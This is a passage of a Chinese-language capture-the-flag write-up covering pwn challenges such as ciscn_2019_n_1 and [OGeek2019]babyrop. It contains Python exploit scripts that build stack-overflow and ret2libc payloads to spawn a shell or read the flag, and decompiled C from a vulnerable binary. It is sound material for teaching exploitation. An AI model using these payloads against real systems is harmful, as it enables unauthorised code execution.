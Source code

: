 ```python
leak = uu64(r(6))
system,binsh = ret2libc(leak,'__libc_start_main')

payload = flat('a'*0x58,pop_rdi,binsh,system)
send(payload)
```

### ciscn_2019_n_1

依然是最简单的无保护 `gets` 并且程序中有 `system("cat /flag")`，找到后者地址返回过去即可。

```python
cat_flag = 0x4006be

def send(payload):
	ru('number.\n')
	sl(payload)

payload = flat('a'*0x38, cat_flag)
send(payload)
```

### ciscn_2019_en_2

和上上题一样。

## Part II

### [OGeek2019]babyrop

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if (fd> 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

`main` 中 `sub_80486BB` 用于初始化，然后将一个随机数传入 `sub_804871F`：

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s,"%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if (strncmp(buf, &s, v1) )
```